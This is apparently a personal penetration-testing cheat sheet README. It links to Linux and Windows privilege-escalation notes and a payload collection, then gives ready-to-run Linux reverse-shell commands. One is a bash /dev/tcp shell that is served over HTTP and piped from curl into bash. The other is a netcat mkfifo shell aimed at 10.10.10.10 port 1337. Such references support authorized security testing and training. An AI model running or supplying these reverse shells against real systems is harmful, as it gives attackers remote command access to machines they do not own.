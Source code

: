 # Cheat Sheet
Here are some commands, reverse shells, and small scripts that I keep for pen-testing.

## Quick Links
[Linux Privilege Escalation](LinuxPrivEsc/README.md)

[Windows Privilege Escalation](WindowsPrivEsc/README.md)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

[Web Penetration Testing Checklist](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Reverse Shell
Alternate ways to gain shells.

### Linux
Using cURL
```bash
echo 'bash -i >& /dev/tcp/10.10.10.10/1337 0>&1' > rev.sh
python3 -m http.server 8080
nc -lnvp 1337
curl http://10.10.10.10:8080/rev.sh | bash
```
Probably the least-special-characters way (and with sh):
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1337 > /tmp/f
```
